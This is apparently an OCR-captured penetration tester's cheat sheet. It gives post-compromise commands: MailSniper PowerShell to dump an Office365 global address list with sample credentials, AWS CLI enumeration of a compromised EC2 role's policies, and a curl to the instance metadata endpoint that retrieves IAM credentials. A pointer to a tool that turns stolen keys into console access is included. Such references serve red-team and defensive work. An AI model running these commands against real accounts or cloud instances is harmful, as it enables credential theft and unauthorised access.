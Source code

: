 ```yaml
---
title: cheat sheets
layout: page
tags: cheatsheet dfir aws privesc o365 ad 
---
```


## O365

Office365/OWA (MailSniper) - [github repo](http://www.dafthack.com/files/MailSniper-Field-Manual.pdf)

Dump e-mail accounts after first account compromise

```powershell
Import-Module MailSniper.ps1
Get-GlobalAddressList -ExchHostname 'outlook.office365.com' -UserName 'username@domain.com.br' -Password 'Spring2017' -OutFile global-address-list.txt
```
---

## AWS

Convert access keys to console access
https://github.com/NetSPI/aws_consoler

```bash
aws configure
aws sts get-caller-identity     # Get ec2 role name 
aws iam list-attached-role-policies --role-name {role_name}
aws iam get-policy-version --policy-arn {policy_arn} --version-id V1
```

EC2 instances have policies attached to them, we need to first understand their privileges and then move accordly.
```bash
aws sts get-caller-identity
{
    "UserId": "AROA3LQ5G6SYMS7LOLCPH:i-asdasd",
    "Account": "780671579312",
    "Arn": "arn:aws:sts::780671579312:assumed-role"
}
```

Retrieve instance metadata to get aws credentials.
```bash
curl -H "X-aws-ec2-metadata-token: $TOKEN" -v http://169.254.169.254/latest/meta-data/iam/security-credentials/role-name`
{
  "Code" : "Success",
  "LastUpdated" : "2021-03-24T18:42:47Z",
  "Type" : "AWS-HMAC",
  "AccessKeyId" : "REDACTED",
  "SecretAccessKey" : "REDACTED",
  "Token" : "LQ==",
  "Expiration" : "2021-03-25T00:44:50Z"
}
```
